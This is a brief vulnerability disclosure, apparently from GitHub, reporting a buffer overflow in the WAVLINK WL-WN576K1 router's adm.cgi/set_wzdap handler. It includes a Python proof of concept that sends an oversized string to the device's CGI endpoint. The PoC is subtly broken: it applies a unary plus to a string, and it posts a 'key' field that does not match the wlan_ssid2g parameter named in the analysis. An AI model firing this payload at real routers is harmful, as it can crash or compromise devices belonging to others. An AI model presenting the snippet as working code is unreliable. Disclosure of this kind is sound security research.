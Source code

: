 # buff overflow

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a buff overflow in adm.cgi/set_wzdap

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

 Analyse:

![](4.png)

![](5.png)

get value from wlan_ssid2g, and we can set TouchLinkEn in wireless.cgi, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'key': + payload})
```
